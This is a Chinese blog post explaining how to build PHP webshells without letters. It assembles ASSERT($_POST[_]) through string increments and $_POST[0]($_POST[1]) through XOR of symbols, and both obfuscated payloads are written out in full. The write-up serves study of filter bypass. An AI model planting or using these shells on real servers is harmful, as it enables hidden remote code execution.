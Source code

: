 ```yaml
---
title: "无字母 PHP Shell"
date: 2018-05-05T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



在处理字符变量的算数运算时, PHP 沿袭了 Perl 的习惯. 例如, a = ‘Z’; a++; 将把 $a 变成’AA’, 注意字符变量只能递增, 不能递减, 并且只支持纯字母 (a-z 和 A-Z).

php 弱类型的坑.

参考 P 牛的文章, 自己整理一下.

<!--more-->

## ASCII

利用之前介绍的特性.

首先要有一个字母 A, 之后才能通过递增得到其它字母.

由于 php 弱类型的特性, array 转换为 string 时会得到 Array.

```
$_ = ''.[];
echo $_; // Array
```

通过 `!` 进行非运算, bool 类型强制转换就会变成 0 or 1.

```
echo ''; //
echo !(''); // 1
echo ('!'=='@') //
echo !('!'=='@'); // 1
```

获取字符 A.

```
$_ = ''.[];
echo $_[''];
```

之后通过递增获取其它字符.

```
$_ = ''.[];
$_ = $_[''];
$_; // A
$___ = $_;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$___ .= $__.$__;
$__ = $_;
$__++;$__++;$__++;$__++; // E
$___ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___ .= $__; // ASSERT
$____ = '_';
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____ .= $__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____ .= $__; // _POST
```

变量覆盖 得到 `$_POST`.

```
$_ = $$____; // $_POST
```

拼接.

```
$___($_[_]); // ASSERT($_POST[_])
```

php 不区分大小写.

## Xor

在PHP中, 两个变量进行异或时, 会将字符串转换成二进制再进行异或.

两个 foreach 跑出异或结果, 之后拼接.

```
<?php
@$_++; // 1
$__=("#"^"|"); // _
$__.=("."^"~"); // _P
$__.=("/"^"`"); // _PO
$__.=("|"^"/"); // _POS
$__.=("{"^"/"); // _POST 
${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1])
?>
```